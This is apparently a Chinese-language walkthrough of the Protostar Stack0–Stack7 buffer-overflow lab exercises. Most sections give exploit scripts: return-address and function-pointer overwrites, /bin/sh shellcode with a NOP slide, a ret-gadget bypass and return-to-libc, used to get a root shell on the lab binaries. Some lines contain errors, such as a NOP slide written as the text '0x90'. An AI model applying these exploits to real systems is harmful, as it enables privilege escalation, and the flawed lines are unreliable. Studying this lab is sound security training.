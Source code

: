# Stack

## Stack0

先蓋 64 個字

再蓋下去就是 modified (目標)

這題只要讓 modified != 0

所以隨便蓋就好

`python -c "print 'A'*64+'whatever'" | ./stack0`

## Stack1

這題 modified 和 buffer 的相對距離一樣是 64 個字

但是要把 modified 變成 0x61626364 (小心 little endian)

注意 input 是從 argv 參數進來的 (我用 xargs 把 python 產生的字給 stack1 當參數)

`python -c "print 'A'*64+'dcba'" | xargs ./stack1`

## Stack2

這題也一樣

不過 input 變成從 GREENIE(環境變數) 拿值進來

```
GREENIE=$(python -c "print 'A'*64+'\x0a\x0d\x0a\x0d'")
export GREENIE
./stack2
```

## Stack 3

這題要把 fp (function pointer) 改成 win 這個函式的位置

offset (buffer 和 fp 的相對距離) 也一樣是 64 bytes (也就是先蓋 64 個字之後就蓋到目標 fp 了)

先用 gdb 看 win 函式的位置 (在 gdb 下執行 `x win`) -> 0x8048424

`python -c "print 'A'*64+'\x24\x84\x04\x08'" | ./stack3`

## Stack4

這題要把 stack 上的 return address 改成 win 這個函式的位置

offset (buffer 和 return address 的相對距離) 是 76 bytes (也就是先蓋 64 個字之後就蓋到目標 return address 了)

先用 gdb 看 win 函式的位置 (在 gdb 下執行 `x win`) -> 0x80483f4

`python -c "print 'A'*76+'\xf4\x83\x04\x08'" | ./stack4`

## Stack5

這題要把 shellcode 塞到 stack 上執行囉~(興奮XD)

首先正確的蓋到 return_address (讓他 return 到 stack 後面一點的位置)

再建一個 nop 通道讓他滑到執行 shellcode

然後當然也要把 shell code 放到 stack 上

```python
import struct

padding = 'A'*76
return_address = struct.pack("I",0xbffff78c+50)
slide_path = '0x90'*100
shell_code = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80";
print padding + return_address + slide_path + shell_code
```

`( python exploit.py ; cat ) | ./stack5`

拿到 sh 了而且還是 root 的權限 (我們原本是 user 的權限)

## Stack6

這題和上一題差不多只要我們能 return 到我們塞的 shellcode 就好

可是多了這行 `if((ret & 0xbf000000) == 0xbf000000)` ( 如果成立就直接 exit )

而 0xbf 開頭的位址就包含了我們能控制的所有 stack

#### 作法一 : 

我們在 stack 上把 return address 和他的下一個位址改成 `ret` 那行 code 的位址和我們真正要 return 的位址

所以程式檢查 return address 是不是 0xbf 開頭 -> 當然不是因為現在的 return address 是 `ret` 那行 code 的位址

然後執行到 `ret` 時就會先 return 到 `ret` 那行 code ( 也就是再 return 一次 )

所以就會抓 stack 上面下一個值 return 到我們真正要 return 的位址 -> BINGO

```python
import struct

padding = "A"*80
ret_gadget = struct.pack("I",0x80484f9)
return_address = struct.pack("I",0xbffff78c+30)
nop_slide = "\x90"*100
shell_code = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

print padding + ret_gadget + return_address + nop_slide + shell_code
```

`( python exploit.py ; cat ) | ./stack6`

#### 作法二 : 

return to libc 的 system 函式並傳遞 "/bin/sh" 的參數進去

從 return address 開始蓋

蓋 libc 中 system 這個 function 的位址

蓋 system call 完要 return 的 address

蓋 "/bin/sh" 這個參數 ( 用 linux 指令 strings 去找 libc 裡面這個字串的位址 )

```python
import struct

padding = "A"*80
system = struct.pack("I",0xb7ecffb0)
return_after_system = "AAAA"
bin_sh = struct.pack("I",0xb7fb63bf)

print padding + system + return_after_system + bin_sh
```

`( python exploit2.py ; cat ) | ./stack6`

## Stack7

這次不給跳到 0xb 開頭的位址 ( Stack6 的作法二不能用了 )

和 Stack6 的作法一一樣先塞個 gadget ( 0x80 開頭 )

注意位址要再用 gdb 找一次喔

```python
import struct

padding = "A"*80
ret_gadget = struct.pack("I",0x8048544)
return_address = struct.pack("I",0xbffff77c+50)
nop_slide = "\x90"*100
shell_code = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

print padding + ret_gadget + return_address + nop_slide + shell_code
```

`( python exploit.py ; cat ) | ./stack7`
